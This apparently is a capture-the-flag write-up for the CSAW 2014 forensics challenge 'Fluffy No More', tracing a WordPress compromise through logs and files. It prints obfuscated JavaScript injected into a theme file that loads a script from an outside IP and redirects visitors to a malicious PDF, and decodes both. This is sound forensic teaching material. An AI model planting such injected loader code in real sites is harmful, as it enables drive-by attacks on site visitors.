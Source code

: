 # CSAW CTF 2014: Fluffy No More

**Category:** Forensics
**Points:** 300
**Description:**

> OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious "Forgotten Freaks" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
>
> Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of its database and configuration. Figure out what is going on!
>
> Written by brad_anton
>
> [CSAW2014-FluffyNoMore-v0.1.tar.bz2](CSAW2014-FluffyNoMore-v0.1.tar.bz2)

## Write-up

As its extension suggests, [the provided `CSAW2014-FluffyNoMore-v0.1.tar.bz2` file](CSAW2014-FluffyNoMore-v0.1.tar.bz2) is a bzip2-compressed tarball:

```bash
$ file CSAW2014-FluffyNoMore-v0.1.tar.bz2
CSAW2014-FluffyNoMore-v0.1.tar.bz2: bzip2 compressed data, block size = 900k
```

Let’s extract it:

```bash
$ tar xjfv CSAW2014-FluffyNoMore-v0.1.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/
x CSAW2014-FluffyNoMore-v0.1/etc_directory.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/logs.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/mysql_backup.sql.bz2
x CSAW2014-FluffyNoMore-v0.1/webroot.tar.bz2
```

Oh, it contains more tarballs! Let’s extract those as well:

```bash
$ cd CSAW2014-FluffyNoMore-v0.1

$ for file in *.tar.bz2; do mkdir -p "${file}-extracted"; tar --directory "${file}-extracted" -xjf "${file}"; done
```

Viewing `logs.tar.bz2-extracted/var/log/auth.log` reveals an interesting entry:

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Someone with root access to the server edited the web-exposed `/wp-content/themes/twentythirteen/js/html5.js` file. Reviewing the file’s contents (`webroot.tar.bz2-extracted/var/www/html/wp-content/themes/twentythirteen/js/html5.js`), it’s clear that some malicious JavaScript code was inserted.

```js
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

The above script is equivalent to the following:

```js
document.write("<script src='http://128.238.66.100/analytics.js'><\/script>");
```

Let’s download [the `analytics.js` file](analytics.js) so we can take a look at it:

```bash
$ wget http://128.238.66.100/analytics.js
```

The file consists of minified code, most of which is legitimate. A small part of it stands out because it’s obfuscated, though:

```js
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0x91fe%3D%5B%22%5Cx68%5Cx74%5Cx74%5Cx70%5Cx3A%5Cx2F%5Cx2F%5Cx31%5Cx32%5Cx38%5Cx2E%5Cx32%5Cx33%5Cx38%5Cx2E%5Cx36%5Cx36%5Cx2E%5Cx31%5Cx30%5Cx30%5Cx2F%5Cx61%5Cx6E%5Cx6E%5Cx6F%5Cx75%5Cx6E%5Cx63%5Cx65%5Cx6D%5Cx65%5Cx6E%5Cx74%5Cx2E%5Cx70%5Cx64%5Cx66%22%2C%22%5Cx5F%5Cx73%5Cx65%5Cx6C%5Cx66%22%2C%22%5Cx6F%5Cx70%5Cx65%5Cx6E%22%5D%3Bwindow%5B%5f0x91fe%5B2%5D%5D%28%5f0x91fe%5B0%5D%2C%5f0x91fe%5B1%5D%29%3B):

```js
var _0x91fe=["http://128.238.66.100/announcement.pdf","_self","open"];
window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

…which is equivalent to:

```js
window.open('http://128.238.66.100/announcement.pdf', '_self');
```

Let’s download [that `announcement.pdf` file](announcement.pdf):

```bash
$ wget http://128.238.66.100/announcement.pdf
```

Opening the PDF file in [PDF Stream Dumper](http://sandsprite.com/blogs/index.php?uid=7&pid=57) reveals some hidden JavaScript code:

![](pdf-stream-dumper.png)

```js
var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0xee0b%3D%5B%22%5Cx59%5Cx4F%5Cx55%5Cx20%5Cx44%5Cx49%5Cx44%5Cx20%5Cx49%5Cx54%5Cx21%5Cx20%5Cx43%5Cx4F%5Cx4E%5Cx47%5Cx52%5Cx41%5Cx54%5Cx53%5Cx21%5Cx20%5Cx66%5Cx77%5Cx69%5Cx77%5Cx2C%5Cx20%5Cx6A%5Cx61%5Cx76%5Cx61%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx20%5Cx6F%5Cx62%5Cx66%5Cx75%5Cx73%5Cx63%5Cx61%5Cx74%5Cx69%5Cx6F%5Cx6E%5Cx20%5Cx69%5Cx73%5Cx20%5Cx73%5Cx6F%5Cx66%5Cx61%5Cx20%5Cx6B%5Cx69%5Cx6E%5Cx67%5Cx20%5Cx64%5Cx75%5Cx6D%5Cx62%5Cx20%5Cx20%5Cx3A%5Cx29%5Cx20%5Cx6B%5Cx65%5Cx79%5Cx7B%5Cx54%5Cx68%5Cx6F%5Cx73%5Cx65%5Cx20%5Cx46%5Cx6C%5Cx75%5Cx66%5Cx66%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6E%5Cx6E%5Cx69%5Cx65%5Cx73%5Cx20%5Cx4D%5Cx61%5Cx6B%5Cx65%5Cx20%5Cx54%5Cx75%5Cx6D%5Cx6D%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6D%5Cx70%5Cx79%5Cx7D%22%5D%3Bvar%20y%3D%5f0xee0b%5B0%5D%3B):

```js
var _0xee0b=["YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}"];
var y=_0xee0b[0];
```

The flag is `Those Fluffy Bunnies Make Tummy Bumpy`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/09/csaw14-fluffy-no-more-writeup.html>
* <http://sugarstack.io/csaw2014-fluffy-no-more/>
<<<<<<< HEAD
=======
* <https://hackucf.org/blog/csaw-2014-forensics-300-fluffy-no-more/>
* <https://gist.github.com/bt3gl/4bddaed9e5cc246e51f5>
>>>>>>> upstream/master
